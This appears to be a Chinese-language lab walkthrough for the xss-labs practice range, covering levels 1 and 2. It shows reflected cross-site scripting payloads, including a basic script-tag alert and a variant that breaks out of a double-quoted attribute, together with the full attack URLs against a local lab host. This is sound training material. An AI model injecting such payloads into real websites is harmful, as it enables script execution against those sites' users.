 # xss-labs靶场



## level1

### 访问

http://192.168.70.10:8084/level1.php?name=test

![image-20240819201229271](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819201229271.png)

### 构造payload

```js
<script>alert(1)</script>
```

### 执行

```html
http://192.168.70.10:8084/level1.php?name=<script>alert(1)</script>
```

![image-20240819201525821](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819201525821.png)

## level2 双引号闭合

### 访问

http://192.168.70.10:8084/level2.php?keyword=test

![image-20240819203716657](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819203716657.png)

### `<>`实体化转义

![image-20240819201718959](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819201718959.png)

### 闭合`value="`的双引号

```js
"><script>alert(1)</script>
```

### 运行

```html
http://192.168.70.10:8084/level2.php?keyword="><script>alert(1)</script>
```

![image-20240819201910805](https://image.201068.xyz/assets/23_1.XSS-labs/image-20240819201910805.png)
